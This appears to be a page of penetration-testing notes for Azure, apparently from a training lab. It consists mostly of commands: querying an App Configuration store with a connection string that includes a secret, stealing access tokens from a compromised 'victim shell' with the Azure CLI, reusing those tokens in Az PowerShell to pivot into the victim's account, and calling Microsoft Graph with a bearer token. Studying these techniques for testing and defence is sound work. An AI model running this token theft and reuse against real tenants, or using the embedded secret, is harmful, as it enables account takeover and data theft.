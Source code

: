 #### App Config Key
```
az appconfig kv list --connection-string "Endpoint=https://escrow3.azconfig.io;Id=q63q-lab-s0:IkiICUfj7aoiWdfW+fLf;Secret=j50xk3bTCW3uZ4R+jMAyu/feCaKRXrAucE5dJs5OHmY="
```

* * *

## Token reuse

#### Azure Powershell:
```
Connect-AzAccount -AccessToken $Token -AccountId test@defcorphq.onmicrosoft.com

Get-AzAccessToken -ResourceTypeName MSGraph
Disconnect-AzAccount
Connect-AzAccount -AccountId test@defcorphq.onmicrosoft.com -AccessToken $Token -MicrosoftGraphAccessToken eyJ0eXA...
```

#### Pivot from shell stealing tokens
- On victim shell using Az CLI:
```
az account get-access-token
az account get-access-token --resource-type aad-graph
```

- Open a new Powershell console and use Az Powershell:
```
PS C:\AzAD\Tools> $Token = 'eyJ0…'
PS C:\AzAD\Tools> $graphaccesstoken = 'eyJ0…'
```
Now you can connect; ```-AccountID``` is victimID you stole the tokens from:
```
Connect-AzAccount -AccessToken $Token -GraphAccessToken $graphaccesstoken -AccountId f66e133c-bd01-4b0b-b3b7-7cd949fd45f3
```

* * *

# API Call
```
$Token=''
OR
$Token=(Get-AzAccessToken).Token
OR
$graphaccesstoken=(Get-AzAccessToken -ResourceUrl https://graph.microsoft.com).Token
```
**MAKE SURE YOU HAVE TOKEN!** - ```$Token = (Get-AzAccessToken).Token```
```
$RequestParams = @{
Method = 'GET'
Uri = $URI
Headers = @{
'Authorization' = "Bearer $Token"
}
}
(Invoke-RestMethod @RequestParams).value
```
